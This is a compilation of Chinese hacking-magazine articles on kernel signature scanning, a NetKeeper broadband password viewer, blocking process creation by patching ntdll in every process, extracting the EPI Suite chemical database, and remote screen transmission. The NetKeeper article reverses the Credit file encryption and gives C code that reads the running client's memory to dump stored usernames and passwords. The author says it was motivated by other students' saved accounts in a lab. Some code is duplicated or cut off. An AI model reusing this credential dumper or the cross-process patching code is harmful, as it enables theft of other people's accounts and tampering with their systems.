那么获取未导出的函数地址有什么方法呢？据我所知有两种：一是解析符号表，二是特征码定位。这里推荐的方法是特征码定位，因为特征码定位的代码少，而且好理解。一般来说，未导出函数都是由导出函数 call 的。尽管我们不知道也无法直接得到未导出函数的具体地址，但通过使用 WinDBG 的“本地内核调试”功能，就能看到未导出函数的地址。我们再根据反汇编代码的特点，就能找到特征码。下面拿找 KiInsertQueueApc 的地址做例子，让大家了解其中的端倪。首先给出分别在 Windows XP、Windows 2003、Windows 7 上一段对 KeInsertQueueApc 的反汇编代码：

```asm
nt!KeInsertQueueApc+0x3b:
804e6d0a 8b450c        mov eax,dword ptr [ebp+0Ch]
804e6d0d 8b5514        mov edx,dword ptr [ebp+14h]
...
804e6d1b e8523f...     call nt!KiInsertQueueApc(...)

nt!KeInsertQueueApc+0x2a:
80829439 8b450c        mov eax,dword ptr [ebp+0Ch]
...
80829447 885e2c        mov byte ptr [esi+2Ch],bl
8082944d e807fc...     call nt!KiInsertQueueApc(...)

nt!KeInsertQueueApc+0x76:
840d6934 8b450c        mov eax,dword ptr [ebp+0Ch]
840d6937 ff742418      push dword ptr [esp+18h]
840d693b 8b4e24        mov ecx,dword ptr [esi+24h]
...
840d6945 8bd6          mov edx,esi
840d6947 c6462e01      mov byte ptr [esi+2Eh],1
840d694b 894628        mov dword ptr [esi+28h],eax
840d694e e8abf8ff      call nt!KiInsertQueueApc
...
840d6953 c644241301    mov byte ptr [esp+13h],1
840d6958 e605          jmp nt!KeInsertQueueApc+0xa1
```

在三个系统上，尽管 KiInsertQueueApc 的地址都不尽相同，但是它们的反汇编代码都有一个共同的特征：在 `28 e8` 后面的 4 个字节里，记录了 KiInsertQueueApc 的地址！所以我写出了如下的搜索代码：

```vb
Public Function FindKiInsertQueueApc() As Long ' 28 e8
    On Error Resume Next
    Dim i As Long
    Dim uBt As Byte, ubLastAddr As Byte, b1 As Byte, b2 As Byte, b3 As Byte, b4 As Byte
    Dim AddressOfKeInsertQueueApc As Long
    AddressOfKeInsertQueueApc = GetSystemRoutineAddress("KeInsertQueueApc")
    For i = 0 To 250
        Call GetByte(AddressOfKeInsertQueueApc + i, uBt)
        If uBt = &HE8 Then
            Call GetByte(AddressOfKeInsertQueueApc + i - 1, ubLastAddr)
            If ubLastAddr = &H28 Then
                Call GetByte(AddressOfKeInsertQueueApc + i + 1, b1)
                Call GetByte(AddressOfKeInsertQueueApc + i + 2, b2)
                Call GetByte(AddressOfKeInsertQueueApc + i + 3, b3)
                Call GetByte(AddressOfKeInsertQueueApc + i + 4, b4)
                FindKiInsertQueueApc = GetTargetAddress(AddressOfKeInsertQueueApc + i, b1, b2, b3, b4)
                Exit Function
            End If
        End If
    Next
End Function
```

经测试，在 Windows XP、Windows 2003、Windows 7 上使用此代码均能正确获得 KiInsertQueueApc 的地址（以下是在 Windows 7 上测试的截图），如图 1 所示。


### 图 1

### 下面提示如何写 Kernel Inline Hook Scan（仅包括检查 ntosxxx.exe 导出函数的 Inline Hook 和 SSDT Inline Hook）

- 获得 SSDT 上所有函数的地址以及 ntosxxx.exe 所有导出函数的地址（去除重复部分）。
- 分别获得这些函数前 N 字节的在内核文件中的数据，存入字节数组 A[]。
- 分别获得这些函数前 N 字节的在内核内存中的数据，存入字节数组 B[]。
- 对比 A[] 和 B[]，不同的地方就是被修改的地方。
- 循环 2、3、4，直到对比完所有的函数。

注意：N 的大小不定，原则上是找到函数结束为止。

上述提示没有经过实践证明，仅仅是我的想法而已。对于检测未导出函数是否被 Hook，我还没有很好的办法，这里就不说了。本文到此结束，欢迎大家和我交流，并提出宝贵意见。

（编辑提醒：本文涉及的代码可以到黑防官网站下载）

- 前置知识：汇编、VC  
- 关键词：NetKeeper、密码查看


# 打造 NetKeeper 宽带账号密码查看器

文/图 no_comment

前几天在机房上实验课，打开 NetKeeper 准备拨号的时候，发现里面有很多别人保存的账号……于是内心突然诞生了很邪恶的想法，到百度里面找 NetKeeper 账号查看器，无奈却没有结果。

看来什么东西都得自己动手啊……于是打算自己写个简单的作品玩玩。

由于我知道账号信息是保存在 NetKeeper 同目录下的 Credit 文件中，所以我们就直接动手吧。

```asm
bp CreateFileA,[STRING [esp+4]]=="Credit"
```

然后按 F9 键，程序就会中断在 CreateFile 中，然后按 Ctrl+F9 回到用户代码。

```asm
004133A5  LEA EAX,DWORD PTR SS:[ESP+C]
004133A9  PUSH 0
004133AB  LEA EDI,DWORD PTR DS:[EBX+E4C]
004133B1  PUSH EAX
...
CALL DWORD PTR DS:[<&KERNEL32.ReadFile>]
```

我们运行到 004133B7 处，然后查看下 EDI 的内容，这个值就是缓冲区地址……

大家可以到拨号程序目录下面看看 Credit 文件大小，会发现它刚好是 5.63 KB（5772 字节）。

```asm
004133D9  CMP DWORD PTR SS:[ESP+C],168C
004133E1  JE SHORT NetKeepe.004133FA
```

```asm
004133FA  PUSH ESI
```

```asm
004133FB  CALL DWORD PTR DS:[<&KERNEL32.CloseHandle>]
00413401  PUSH 0
00413403  PUSH EDI
00413404  MOV ECX,EBX
00413406  CALL NetKeepe.00415230
```

这时大家请注意下这个 EDI，里面存放的是缓冲区地址，猜测后面的函数就是解密函数。

```asm
00415230  MOV EAX,DWORD PTR SS:[ESP+8]
00415234  PUSH EBX
00415235  PUSH EBP
...
00415247  CALL NetKeepe.00404510
```

这个函数在开始就会根据传递的参数（0 或 1）选择分支，而这两个分支分别有如下字符串：

```asm
ASCII "EncodeCredit,encode"
ASCII "EncodeCredit,decode"
```

猜测此函数是一个既能加密，也能解密的函数。换 IDA 往下看，就看到这样的代码：

```c
.text:0041536B  push offset aEncodecreditDe ; "EncodeCredit,decode"
.text:00415370  call sub_404510
...
.text:0041538E  lea esi,[ebp+50h]
.text:00415392  push 20h
.text:00415394  push ecx ; pbuffer_username
```

```asm
.text:00415395    call decode ; 解码
.text:0041539A    push 20h ; pwd_len
.text:0041539C    push esi ; pbuffer_pwd
.text:0041539D    call decode ; 解码
...
.text:00415445    cmp eax, edx ; 判断所有的账号是否都已经完成解码工作
.text:00415447    mov [esp+104h+flags], eax
.text:0041544B    jl  loc_41538F
...
```

按 F9 键运行，然后观察数据窗口，就会发现账号和密码都在缓冲区中被还原了。据上面的代码我们就可以猜测出 Credit 文件的大体结构：

| 字段 | 内容 |
|---|---|
| 总长度 | 0x168C（5772） |
| 缓冲区地址 | 0x0012D708 |
| 头部 | 0x30（其中第一个字节内容加 1 为账号个数） |
| 账号1.user | 0x20 |
| 账号1.pwd | 0x20 |
| 账号1.other | 0x180 |
| 账号2 | ... |

解密函数其实是 decode（IDA 我改了名字的，OD 为 CALL NetKeepe.00410CC0），此函数根据传入缓冲区地址还有长度，然后进行解密。在该函数内部先进行了算法初始化，然后是每次 8 字节的解密工作。虽然这个解密算法有点复杂，但可以看出与 DES 的 SBOX 有关。继续按下 F9 键，熟悉的界面出现，不过缓冲区中的内容依然还在，于是可以考虑直接从内存中读取。

在我的机器上，这个缓冲区的地址是 0x0012D708，但这个地址并非固定不变。因为该缓冲区位于堆栈中，实际处在一个对象内部。账号密码信息就在其中。因此不能直接读取固定地址，只能先读取一个数据块，再在里面搜索账户信息，最后把搜索到的信息输出。

代码如下：

```c
// CodeBlock 10.5 下通过
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
typedef struct {
    char name[0x20];
    char pwd[0x20];
    char other[0x180];
} *PACCOUNT;
```

```c
char name[0x20];
char pwd[0x20];
char other[0x180];
} *PACCOUNT;
HANDLE hProcess();
DWORD FindPWD();
int IsNum(char* str, int len);
int check(char* pData);
void print_data(PACCOUNT buffer);
HWND hwnd;
HANDLE HProce; // 保存目标进程句柄
DWORD ProcessId;
// LPVOID pbase=0x0012D708; // 基地址

DWORD nbyte;
char buffer[0x168C]; // 存放 Credit 文件缓冲区
const int buf_len=0x168C;

int main() {
    printf("NetKeeper2.5.0045 Account Viewer v1.0\n");
    HProce=hProcess();
    FindPWD();
    getchar();
    return 0;
}

HANDLE hProcess() {
    hwnd=FindWindow(0,"NetKeeper2.5");
    if(!hwnd){
        printf("Error! Can't find NetKeeper2.5\n");
        return 0;
    }
    GetWindowThreadProcessId(hwnd,&ProcessId);
    return OpenProcess(PROCESS_ALL_ACCESS,0,ProcessId);
}

DWORD FindPWD() {
    LPVOID pfind=0x0012C000;
    int iUserNum=0,num;
    memset(buffer,0,buf_len);
    while(pfind<0x00130000) {
        if(ReadProcessMemory(HProce,pfind,buffer,buf_len,&nbyte)) {
            buffer[buf_len-1]=0;
            // 查找 @cqupt 等特征
            // 判断数字与账号模式
        }
        pfind += nbyte;
    }
}
```

```c
// ...（左栏大段 C 代码，包含内存搜索、ReadProcessMemory、IsNum、check、print_data 等函数实现）
```

```c
{
    PACCOUNT pbuf=(char*)pd+0x30;
    int i=1,num=1+*(DWORD*)pd;
    while(i<=num && pbuf<(char*)pd+buf_len)
    {
        printf("%2.2d: %s :%s\n",i++,pbuf->name,pbuf->pwd);
        pbuf++;
    }
    return;
}
```

这个程序是针对目前最新的 NetKeeper 2.5.0045 编写的，需要在打开 NetKeeper 的情况下才能取到密码。我在 XP 和 Windows 7 下测试都能正常获得账号和密码信息，但考虑到各个学校的软件版本可能有差异，所以我并不是在所有机器上都能正常获取密码。顺便告诫大家，在机房用 NetKeeper 拨号时，千万不要保存密码。其实 NetKeeper 对账号的保密是很差的，不仅在程序启动时会直接读到内存中解密，在拨号时进行验证时，数据也是明码传输的。这意味着有心人如果把 Credit 文件复制后去抓包，密码也能出来。甚至在拨号成功后，在账号管理界面用星号查看器也能得到密码。如图 1 所示是我测试的图片。


图 1

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

---

- 前置知识：VC  
- 关键词：Win64、创建进程

# 兼容 Win64 的全局禁止创建进程


文/广东工业大学 胡文亮

ARK 有个很重要的功能就是“禁止创建进程”（还有禁止创建文件、注册表值等）。由于原理一样，所以略过不讲。据我所知，实现这些操作在网上流传的方法都要通过 Hook 来实现。Hook 的方法有很多种，就 Inline Hook 而言，有的在 Ring0 下通过挂钩 NtCreateUserProcess（NT6）/NtCreateProcessEx（NT5）等函数实现，有的在 Ring3 下通过各种方法（写注册表键值 AppInit_DLLs / CreateRemoteThread / SetWindowsHookEx）注入 DLL，并在 DLL 里写挂钩 NtCreateUserProcess/NtCreateProcessEx 的代码实现。

实现这么一个简单操作就是注入又是写注册表又是加载驱动的，搞得系统乌烟瘴气，还不一定有效（SetWindowsHookEx 和 AppInit_DLLs 只对 GUI 进程有效），真是让人很不爽。最重要的是，到了 Win64 下，驱动很难加载了，注入 DLL 也没这么方便，要实现以上功能，恐怕现在网上流传的方法都不能使用了。我最近在学习 64 位汇编语言的时候，想到一个方法，经测试，简易有效，而且稳定。

首先来给不懂 x86 或 x86-64 汇编语言的朋友解释两条指令。第一是 ret，英语 return 的缩写，顾名思义，就是返回的意思，对应的机器码是 0xC3；二是 nop，就是让 CPU 不执行任何操作，占用一指令周期的时间，对应的机器码是 0x90。我的方法是：覆盖 NtCreateUserProcess 或 NtCreateProcessEx 的第一条指令为 0x90、0xC3、0x90……（后面的 0x90 个数要填满第一条指令的长度），这样就能禁止创建进程了。

以下反汇编代码分别是在 Windows 2003 x86 和 Windows 7 x64 中对 NtCreateProcessEx 和 NtCreateUserProcess 反汇编得到的：

```cpp
lkd> u ntdll!NtCreateProcessEx
ntdll!ZwCreateProcessEx:
... mov eax,32h
... mov edx,offset SharedUserData!SystemCallStub
... call dword ptr [edx]
... ret 24h

lkd> u ntdll!NtCreateUserProcess
ntdll!ZwCreateUserProcess:
... mov r10,rcx
... mov eax,0AAh
... syscall
... ret
... nop dword ptr [rax+rax]
```

可见 NtCreateProcessEx 和 NtCreateUserProcess 的第一条指令分别是 5 字节和 3 字节。于是我们分别覆盖 5 字节和 3 字节即可。

```cpp
LPVOID AddressOfCreateProcess=NULL;
BYTE OriCode[5]={0x0,0x0,0x0,0x0,0x0};
BYTE NewCode[5]={0x90,0xC3,0x90,0x90,0x90};

void HookCreateProcess(HANDLE hProc)
{
    SIZE_T dwRet=0;
    AddressOfCreateProcess=(LPVOID)GetProcAddress(GetModuleHandleA("ntdll.dll"),"NtCreateProcessEx");
    ReadProcessMemory(hProc,AddressOfCreateProcess,OriCode,5,&dwRet);
    WriteProcessMemory(hProc,AddressOfCreateProcess,NewCode,5,&dwRet);
}

LPVOID AddressOfCreateProcess=NULL;
BYTE OriCode[3]={0x0,0x0,0x0};
BYTE NewCode[3]={0x90,0xC3,0x90};

void HookCreateProcess(HANDLE hProc)
{
    SIZE_T dwRet=0;
    AddressOfCreateProcess=(LPVOID)GetProcAddress(GetModuleHandleA("ntdll.dll"),"NtCreateUserProcess");
    ReadProcessMemory(hProc,AddressOfCreateProcess,OriCode,3,&dwRet);
    WriteProcessMemory(hProc,AddressOfCreateProcess,NewCode,3,&dwRet);
}
```

恢复的代码如下：

```cpp
void UnHookCreateProcess(HANDLE hProc)
{
    SIZE_T dwRet=0;
    WriteProcessMemory(hProc,AddressOfCreateProcess,OriCode,5,&dwRet);
    return;
}

void UnHookCreateProcess(HANDLE hProc)
{
    SIZE_T dwRet=0;
    WriteProcessMemory(hProc,AddressOfCreateProcess,OriCode,3,&dwRet);
    return;
}
```

实现禁止创建文件、注册表项和注册表键值的方法基本一样，只要把 NtCreateProcessEx/NtCreateUserProcess 换成 NtCreateFile、NtCreateKey 和 NtSetValueKey 即可。附件中有相应的代码，限于篇幅不贴出来，请自行查看。

接下来实现全局 Hook 就很简单了：首先枚举系统中所有的进程，然后覆盖每个进程中的 NtCreateProcessEx/NtCreateUserProcess 函数头的第一条指令。这样就实现了全局禁止创建进程。当然，别忘记在 main() 函数里获得 SE_DEBUG 特权，否则有些进程会打不开。

```cpp
Void HookAllProcess()
{
    HANDLE hp=0;
    int pids[200],procsnum=0;
    GetAllProcessA(pids,&procsnum);
    for(int i=0;i<procsnum;i++)
    {
        hp=OpenProcess(PROCESS_ALL_ACCESS,0,pids[i]);
        HookCreateProcess(hp);
        CloseHandle(hp);
    }

    printf("Press any key to unhook\n"); getchar();

    for(int i=0;i<procsnum;i++)
    {
        hp=OpenProcess(PROCESS_ALL_ACCESS,0,pids[i]);
        UnHookCreateProcess(hp);
        CloseHandle(hp);
    }
}

int main()
{
    BOOLEAN bRet;
    RTLADJUSTPRIVILEGE getdbg=(RTLADJUSTPRIVILEGE)GetProcAddress(GetModuleHandleA("ntdll.dll"),"RtlAdjustPrivilege");
    getdbg(20,1,0,&bRet);
    HookAllProcess(); // 全局禁止创建进程
    return 0;
}
```

测试的效果如图 1 和图 2 所示。


图 1 Windows 2003 x86

本文到此结束，有更好方法的朋友，欢迎和我讨论。另外由于本文的示例程序使用 VS2010 编写，所以需要安装 Microsoft .NET Framework 4.0 才能运行（仅 x64 程序，x86 程序不需要）。另外我无法提供完整的 VS2010 工程文件，不知为何，以上区区几十行代码对应的工程文件竟然有上百兆！真不知道微软搞什么鬼！最后想说明的是，这些所谓的“底层代码”用任何语言都能实现，和普通的程序代码没有任何区别。这个程序的早期版本我分别是用 VB（x86）和 PureBASIC 4.5（x64）写的，只是为了方便大部分读者才转成 C++ 代码的。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：C#  
关键词：EPI、化学、信息库

# 提取 EPI Suite 化学信息库

文/图 紫王幽谷 / Rock S.Y.

Estimation Program Interface（EPI）Suite 是一款化学属性预测软件，这款软件中最有价值的是两部分：SMILES 编码结构的演算和含有大量实验数据的数据库。而本文就是关于其后者的提取方法。EPI Suite 软件的下载地址为 http://www.epa.gov/opptintr/exposure/pubs/episuitedl.htm ，现在的最新版为 EPI Suite 4.0，如图1所示。

其数据库文件为 .DB 格式，索引文件为 .IDX 格式，如图2所示。

由于某数据的质量很好，我在网上查了好长时间，均没有找到读取某数据库相关的资料。在无意间把数据库文件放到了记事本中，发现竟然可以读取，如图3所示。

但问题并非那么简单，首先是数据量的问题，数据肯定在万条的数量级上，人工是肯定不行的，必须用程序提取。但一个严重的问题又摆在了面前，化学名称中间有空格，而数据字段之间也是用空格分隔的，更头疼的是数据中还夹杂着乱码。这让我为难了很长时间。

通过对数据的分析不难看出，数据中 CAS（Chemical Abstracts Service Registry Numbers）的字段很规则，可以作为数据行的切割点，而且其中的乱码也被甩到了数据行的末尾，让数据间的分隔成为可能。但数据列之间的切割还是比较困难。因为我个人喜欢用 Notepad++ 来代替 Windows 自带的记事本，有一次我把 EPI 数据库拖到了 Notepad++ 中，发现其结果和 Windows 记事本有很大区别。字段之间的空格与化学名称之间的空格竟然是不一样的。（提示：Notepad++ 只能打开小于 1MB 的数据库，稍微大一点就可能导致 Notepad++ 程序死掉。）然后用程序读取发现，字段之间的分隔符是 ASCII 编码中的 `0` 号（C 语言中的 `\0`），而化学名称之间的分隔符是“空格符”。折腾了好长时间，现在终于可以完整地提取数据库中的有用信息了，如图4所示。

图4

采用 Visual Studio 2010 编程方法如下：

- 第一步，按照 CAS No. 的规则进行识别，将数据分行切割，存入 txt 文件中。注意，不用放入 Excel 或 Access 等数据库中，因为数据中含有“\0”的字符，当从数据库中读取数据时，程序会把第一个“\0”字符作为数据的结束符，后面的数据将丢失。也正是由于这个原因，当数据达到大于 8MB 的时候，数据的第一步处理会花费较长的时间。
- 第二步，将已分好行的数据，提取有用列，存入 Excel 中。注意，如果数据行数超过了 65536 行，即 Excel 能接受的最大行数，需要改用其他方式存储。由于 .NET 的 MyXLS 组件可以让没有装 Office 的计算机导出 Excel 表，因此，本文使用 Excel 表作为数据的接收端。

.NET C# 编程代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Drawing;
using System.Linq;
using System.Text;
using System.Windows.Forms;
namespace EPICrack
{
    public partial class FormEPICrack : Form
    {
        public FormEPICrack()
        {
            InitializeComponent();
        }

        private void FormEPICrack_Load(object sender, EventArgs e)
        {
        }

        string EPIList = "EPIList";

        private void buttonRead_Click(object sender, EventArgs e)
        {
            buttonRead.Enabled = false;
            this.Cursor = Cursors.WaitCursor;
            if (!System.IO.File.Exists(tB_DataBase.Text))
            {
                buttonRead.Enabled = true;
                buttonRead.Text = "数据库文件没找到";
                this.Cursor = Cursors.Default;
                return;
            }
            ...
        }
    }
}
```

```csharp
if (System.IO.File.Exists(EPIList + ".txt"))
    System.IO.File.Delete(EPIList + ".txt");
System.IO.StreamReader sr = new System.IO.StreamReader(tB_DataBase.Text);
char[] c = new char[10];
int intNext = sr.Read(c, 0, 4);
string str = string.Empty;
System.IO.StreamWriter sw = new System.IO.StreamWriter(EPIList + ".txt", true);

do
{
    c = new char[10];
    intNext = sr.Read(c, 0, 1);
    str += c[0];
    if (System.Text.RegularExpressions.Regex.IsMatch(str, @"\d{6}\-\d{2}\-\d{1}$"))
    {
        sw.WriteLine(str.Substring(0, str.Length - 11));
        str = str.Substring(str.Length - 11);
    }
}
while (!sr.EndOfStream);

sw.Close();
sr.Close();
buttonRead.Enabled = true;
buttonRead.Text = "第一步 完成";
this.Cursor = Cursors.Default;

private void buttonBreak_Click(object sender, EventArgs e)
{
    buttonBreak.Enabled = false;
    this.Cursor = Cursors.WaitCursor;
    if (!System.IO.File.Exists(EPIList + ".txt"))
    {
        tB_Column.Text = "第二步结果文件不存在";
        buttonBreak.Enabled = true;
        this.Cursor = Cursors.Default;
        return;
    }

    int intType = Convert.ToInt32(tB_Column.Text);
    if (System.IO.File.Exists(EPIList + ".xls"))
        System.IO.File.Delete(EPIList + ".xls");

    org.in2bits.MyXls.XlsDocument xls = new org.in2bits.MyXls.XlsDocument();
    org.in2bits.MyXls.Worksheet sheet = xls.Workbook.Worksheets.Add("EPiResult");
    System.IO.StreamReader sr = new System.IO.StreamReader(EPIList + ".txt");
    int intRows = 0;

    do
    {
        string[] strList = sr.ReadLine().Split('\0');
        if (strList.Length >= intType)
        {
            for (int i = 0; i < intType; i++)
            {
                org.in2bits.MyXls.Cell cell = sheet.Cells.Add(intRows + 1, i + 1, strList[i]);
            }
            intRows++;
        }
    }
    while (!sr.EndOfStream);

    sr.Close();
    xls.FileName = EPIList + ".xls";
    xls.Save();
    buttonBreak.Enabled = true;
    buttonBreak.Text = "第二步 完成";
    this.Cursor = Cursors.Default;
}
```

程序编程界面如图5所示。  
图5

程序运行结果：  
第一步运行结果如图6所示。  
图6

第二步运行结果如图7所示。  
图7

## 总结

EPI Suite 软件的数据库提取，总体来说并不复杂，但其难点在于数据量很大。一般当一个文件的大小为 10MB、几十兆或更大时，文件很难用记事本打开，例如 Notepad2、Notepad++ 等程序，在几兆的时候就会暴死。而数据库的文件很少是几十兆，大多都在几百兆，而我最近接触的一些化学数据库在 GB 的数量级上。要想打开这种文件，建议大家使用 UltraEdit。而且这时候程序操作也会很困难，经常会暴死很长时间。顺便给大家提个醒，当数据库的单表条数超过 10 万条时，一定要分表，尤其是微软的 SQL Server 数据库，如果数据的读写控制不好的话，很容易造成假死。

> （编辑提醒：本文涉及的代码可到黑防官方网站下载）

前置知识：VC  
关键词：远程屏幕传输、动态分块、Zlib 压缩

# 基于 GDI 的极速远程屏幕传输技术

文／图 陈长林

本文论述了 Windows 下基于 GDI 的极速远程屏幕传输技术，分析了现有远程屏幕传输技术的不足，提出了一种基于隔行扫描、动态分块、广度优先遍历、Zlib 压缩相结合的远程屏幕传输的高效快速算法，能够高效准确地获取屏幕变化部分，并且进行压缩传输。实验表明，该算法能够高效快速地进行远程屏幕传输，保证了屏幕信息交互的流畅性。

但是目前大多数基于 GDI 的远程屏幕传输技术或多或少存在以下缺点：CPU 占用率高、网络占用率高；这就直接导致了远程屏幕传输不流畅。那么要提高远程屏幕传输的流畅性，就必须解决这两个重要的问题。在长期的反复研究和实践的基础上，研究出了一种解决 CPU 占用率过高、网络占用率过高的办法。

## 引言

## 存在的问题

远程屏幕传输是将远程计算机上的屏幕通过网络实时地传输到另外一台或者多台计算机上，并且重新显现出来。远程屏幕传输目前是许多实际应用系统中的关键技术，最典型的应用是在远程协助、远程屏幕监控、电子教室等。

- 1. 服务端 CPU 占用过高：由于实行的是整屏的截取、数据压缩、数据传输，而客户端负责数据接收与屏幕重现，传统方法存在显著性能瓶颈。截屏所花的代价是巨大的。截取一张 1024×768 16 位色的屏幕，在奔腾4 2.8GHz CPU 的计算机上，所需要的截屏时间差不多是 100ms，这个瓶颈就限制了每秒截取传输的图像数量，而且连续的屏幕截取也增加了 CPU 的使用率。
- 2. 网络传输量过大：由于截取的图像为 bmp 格式，一张 1024×768 16 位色的图片所需要占用的空间为 1024×(16/8)×768=1.5M。虽然我们进行了压缩，但是数据量还是比较大的。例如，XP 系统默认的“蓝天草原”壁纸（16 位 1024×768），使用 ZLIB 算法压缩至少需要 500KB。而在普通的 1M ADSL 带宽下，一般正常的上传传输速度是 50KB/s，要传输这样一张图片至少需要 10s 才可以传输完成。这样的传输速度是让人无法忍受的。

根据目前的远程屏幕传输技术来看，已经用当前屏幕与前一张屏幕异或的方法来准确获取变化部分，从而减少网络传输的流量。但是这种方法存在 CPU 占用过高的问题。主要导致的原因有两个：

- 1. 每次必须整屏截取。整屏截取所花费的代价是巨大的，这就导致 CPU 使用率的增加。
- 2. 每次与前一张屏幕进行异或。每次进行当前屏幕与前一张屏幕进行异或，大量的异或操作所占用的 CPU 也是很高的，这也直接导致了 CPU 占用率居高不下。

## 解决办法

对于以上这些问题，我们提出了一套比较完整的解决办法，既可以解决服务端 CPU 占用过高的问题，又可以尽可能地减少网络的传输量，从而达到极速远程屏幕传输。

CPU 占用过高主要是由于过于频繁的整屏截取所导致的，这里我们可以用隔行扫描算法来大大减少 CPU 的占用率；网络传输量过大主要是因为每次都传输整屏数据，而我们实际上只需要取得当前屏幕和前一张屏幕变化的区域，然后进行传输，最后在客户端把屏幕变化区域和前一张屏幕整合并显示出来，从而获得一张完整的当前屏幕。这样只传输变化部分，就能大大减少传输的数据量。但是如何准确地找出和获取变化区域，这又是我们面临的一个问题。经过反复研究推敲，最后，我们确定了采用“隔行扫描+动态分块+广度优先遍历”获取屏幕变化区域来解决这些问题。

## 算法描述

算法的思想是利用隔行扫描、动态分块、广度优先遍历来准确找出变化区域后，再使用 Zlib 压缩算法压缩传输。算法实现大体流程如图1所示。

隔行扫描的方法是每次截取当前屏幕的一行，与前一张屏幕的同一行进行逐像素比较，之后每次扫描跳跃固定的行数，并且在扫描完整个屏幕后改变扫描起始位置，以确保屏幕的每一行都能被扫描到。扫描完成后就可以根据变化的像素确定出一个变化的矩形区域。

虽然隔行扫描算法能够在耗费 CPU 较低的情况下尽快找出屏幕上变化的矩形区域，但是这个矩形区域当中可能还有没有变化的部分。比如我们打开一个记事本窗口，在未激活状态的窗口边框颜色和激活后的窗口边框颜色是不同的，所以此窗口由未激活状态转为激活状态，隔行扫描算法截取到的是整个记事本窗口。但是要注意到的是，这个记事本窗口的内部区域，也就是文字输入的区域是不变的。这样截取的区域就必定存在着大量冗余数据，从而增加了数据的压缩和传送量，也增加了 CPU 和网络的使用率。所以，我们就必须使用动态分块的方法把整个屏幕分割成 32×32 的小矩形块，然后把在隔行扫描得出的那个变化矩形区域里面的小矩形块和前一张屏幕相同区域进行对比，选出和前一张屏幕不同的区域来进行传输。

但传统的比较方法是对这些小矩形块由上到下、由左到右逐一比较，这样的比较方法效率显然较低。

我们可以注意到，屏幕上的变化区域基本上是连续的，所以我们只要在隔行扫描的时候标记出变化的矩形块，把其放入队列，之后对这些变化的矩形块进行广度优先搜索，来确定真正变化的小矩形块，最后对这些变化的小矩形块使用 ZLIB 压缩传输。

## 算法实现环境

文中算法实现环境计算机型号为 ThinkPad X200 7457-A46，开发环境为 Visual C++ 6.0，实测测试采用 VMware 6.5 虚拟机进行测试。虚拟机主要配置如下：

- CPU：单核 Core2 P8400 2.26GHz
- 内存：256MB
- 显示分辨率：1024×768 16 位色

## 关键代码

```cpp
// 广度优先搜索方法
inline LPBYTE CWinMonitor::BFSSearch(DWORD& dwSize)
{
    deque<block> Queue;
    block changeblock, inQueue;
    int limLeft, limRight, limTop, limBottom;
    RECT blockRect, iiRect;
    LPBYTE lpBlock;
    BITMAPINFO bmiBlock;
    DWORD dwBlockSize;
    DWORD dwBlockNum = 0;
    DWORD dwPos = sizeof(DWORD) + sizeof(POINT);

    limLeft   = m_ChangeRect.left / BLOCKSIZE;
    limRight  = m_ChangeRect.right / BLOCKSIZE;
    limTop    = m_ChangeRect.top / BLOCKSIZE;
    limBottom = m_ChangeRect.bottom / BLOCKSIZE;

    while (!m_queue.empty()) {
        changeblock = m_queue.front();
        m_queue.pop_front();
        // 获取正确的屏幕区域...
    }
}
```

```cpp
GetRightBlockRect(blockRect, changeblock);
/****************************************/
// 复制屏幕变化数据，可以自定义需要发送数据的格式...
// 代码省略...
/****************************************/

// 右
if (changeblock.x + 1 <= limRight)
{
    if (m_BlockArr[changeblock.x + 1][changeblock.y] == 0)
    {
        inQueue.x = changeblock.x + 1;
        inQueue.y = changeblock.y;
        GetRightBlockRect(inRect, inQueue);
        if (BlockIsChange(inRect))
        {
            m_queue.push_back(inQueue);
            m_BlockArr[changeblock.x + 1][changeblock.y] = 1;
        }
    }
}

// 左
if (changeblock.x - 1 >= limLeft)
{
    // 代码基本同上，省略
}

// 下
if (changeblock.y + 1 <= limBottom)
{
    // 代码基本同上，省略
}

// 上
if (changeblock.y - 1 >= limTop)
{
    // 代码基本同上，省略
}

// 记录总共有几块变化的区块
memcpy(m_lpChangeBYTES, &dwBlockNum, sizeof(dwBlockNum));
dwSize = dwPos;
return m_lpChangeBYTES;

/************ 扫描变化区域，使用隔行扫描算法 ************/
inline bool CWinMonitor::ScanChangeRect(int nStartLine)
{
    memset(m_BlockArr, 0, sizeof(m_BlockArr));
    m_queue.clear();
    block changeblock;
    SetRect(&m_ChangeRect, 0, 0, 0, 0);
    bool bIsFirstPoint = true;
    int i, j;

    for (i = m_nScanStartLine; i < m_nHeight; i += N_STEP)
    {
        // 取前一张屏幕的第 i 行
        // 取当前屏幕的第 i 行
        // 内存比较，找到变化点后入队
        if (memcmp(p1 + j, p2 + j, m_nWidthStep) != 0)
        {
            // 判断是否第一个变化点...
        }
    }
}
```

```cpp
if (bIsFirstPoint)
{
    // 记录初始变化边界
    m_ChangeRect.top = m_ChangeRect.bottom = i;
    m_ChangeRect.left = m_ChangeRect.right = j;
    bIsFirstPoint = false;
}
else
{
    m_ChangeRect.bottom = i;
    // 如果最新的变化边界大于原来记录的，则更新
    if (m_ChangeRect.right < j) m_ChangeRect.right = j;
    if (j < m_ChangeRect.left)  m_ChangeRect.left = j;
}

// 标记变化区域，并且插入队列
changeblock.x = j / m_nWidthStep / BLOCKSIZE;
changeblock.y = i / BLOCKSIZE;
if (m_BlockArr[changeblock.x][changeblock.y] == 0)
{
    m_queue.push_back(changeblock);
    m_BlockArr[changeblock.x][changeblock.y] = 1;
}

// 扫描起始行数 +1
m_nScanStartLine = i + 1;

// 如果不是第一个点
if (!bIsFirstPoint)
{
    RECT tmpRect = m_ChangeRect;
    bool bFlag = true;
    int nLim;

    // 扫描变化行上方区域
    nBegin = m_ChangeRect.top - 1 < 0 ? 0 : m_ChangeRect.top - 1;
    nLim = (m_ChangeRect.top - N_STEP) > 0 ? (m_ChangeRect.top - N_STEP) : 0;
    for (i = nBegin; i >= nLim; i--)
    {
        // 此处代码基本同上，省略
    }

    // 扫描变化行下方区域
    nBegin = (m_ChangeRect.bottom + 1) < m_nHeight ? (m_ChangeRect.bottom + 1) : (m_nHeight - 1);
    nLim = (m_ChangeRect.bottom + N_STEP) < m_nHeight ? (m_ChangeRect.bottom + N_STEP) : m_nHeight;
    for (i = nBegin; i < nLim; i++)
    {
        // 此处代码基本同上，省略
    }

    // 判断边界，代码省略
}

return !bIsFirstPoint;

/************ 取得屏幕变化的块的数据 ************/
